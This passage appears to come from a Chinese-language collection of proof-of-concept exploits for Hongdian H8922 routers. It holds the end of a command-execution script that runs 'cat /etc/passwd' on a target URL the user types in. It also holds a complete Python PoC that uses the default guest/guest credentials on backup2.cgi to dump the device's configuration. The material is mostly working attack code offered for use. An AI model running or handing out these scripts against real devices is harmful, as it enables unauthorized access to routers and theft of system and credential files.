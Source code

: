         except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)


    if __name__ == '__main__':
        title()
        cmd = 'cat /etc/passwd'
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url, cmd)

宏電 H8922 後台管理員信息洩露漏洞
---------------------------------

登錄後台(存在訪客用戶默認賬號密碼 guest/guest) 漏洞存在於 backup2.cgi 文件中

### POC

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mTitle  : 宏电 H8922 后台命令执行漏洞 CVE-2021-28150                  \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/backup2.cgi"
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在请求 {}/backup2.cgi.... \033[0m".format(target_url))
            if 'service webadmin' in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取配置文件 \033[0m".format(target_url))
                print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
